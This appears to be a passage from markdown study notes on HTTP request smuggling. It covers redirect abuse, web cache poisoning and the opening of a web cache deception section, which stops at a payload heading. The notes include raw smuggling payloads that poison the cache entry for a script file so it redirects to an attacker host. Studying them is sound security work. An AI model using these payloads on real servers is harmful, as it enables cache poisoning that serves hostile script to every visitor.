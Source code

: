 Result → Redirect points to `attacker-website.com/home`.

🔁 Variants:

- **Root-relative redirect abuse**:
```HTTP
GET //attacker.com/example HTTP/1.1
Host: vulnerable-website.com
```
    → `Location: //attacker.com/example/`
   

---

## 7. Web Cache Poisoning

### 💡 Why It Works

- Front-end cache stores response under **wrong URL key** (due to smuggled request).
    
- Poisoned cache serves malicious redirect to all future visitors.
    

### 🧪 Payload Example

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

Result → Cache for `/static/include.js` now contains redirect to attacker’s site.

---

## 8️. Web Cache Deception

### 💡 Why It Works

- Instead of storing malicious content, attacker forces cache to **store private content** from a victim’s session.
    
- Attacker later retrieves this sensitive content from the cache.
    

### 🧪 Payload Example
